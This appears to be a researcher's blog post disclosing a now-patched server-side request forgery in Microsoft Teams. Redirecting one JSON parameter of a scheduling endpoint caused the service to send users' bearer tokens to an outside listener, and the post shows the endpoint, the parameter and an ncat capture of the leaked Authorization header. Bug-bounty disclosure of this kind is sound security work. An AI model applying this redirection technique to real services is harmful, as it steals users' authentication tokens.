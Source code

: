 ```yaml
---
title: "MS Teams SSRF - $$ Bug Bounty :)"
date: 2024-02-24T02:40:51Z
draft: true
tags: ["notes bugbounty microsoft"]
---
```


## Teams SSRF
While on vacation in December, I was digging around against MS services for some bugs and discovered several SSRFs in MS cloud services. One of which I was awarded a $5000 USD bounty for, due to (presumably) targetting Teams and disclosing user authentication tokens to external services.

![alt text](images/congratulations.png)

Hell yeah! 

It was a pretty simple bug and now that it's patched and sufficient time has passed, MS gave me the green light for publishing.

### DELETE me

While creating a Teams meeting, I observed an interesting POST request was sent to an endpoint when I *unchecked* the "Online Meeting" slider and saved the meeting.

![alt text](images/slider-1.png)

**Endpoint:**

`https://teams.microsoft.com/api/mt/part/amer-03/beta/me/calendarEvents/schedulingService/delete` 

This request included a small JSON body with two parameters: 

`{"links":{"update":"URL"}}`

Simply replacing the `update` parameter contents to a site under my control was enough to trigger this bug. Notably, the response received by the remote listener contains the user's authentication token. This token contains user claims, including `mfa`.

Setting the vulnerable param to my listener at `http://localh0st.run:8080/`, I received the following `DELETE` request:

```
root@localh0st:~# ncat -lvp 8080
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 52.115.93.34.
Ncat: Connection from 52.115.93.34:1920.
DELETE / HTTP/1.1
Host: localh0st.run:8080
Authorization: Bearer eyJ0eXAiOiJKV[...]DYY1BZTuAOKZs_w6Yx_-uIg
x-ms-skype-originator-region: amer
x-ms-skype-originator-region-chatsvc: https://amer.ng.msg.teams.microsoft.com
X-MS-Skype-MLC-Telemetry-Id: 84A1482CD08F45B4A53F791B9E0C6CB2
User-Agent: SkypeSpaces/1.0a$*+
x-ms-request-id: 3E23A7108BA249DCB247AE6ECF21A4F0
traceparent: 00-430bd1bae5f9bc8620358849d3c0eed7-44930dd974fb51dc-00
```

Kind of a shitty screenshot, but it's gets the point across:

![alt text](images/ssrf-1.png)


That's it!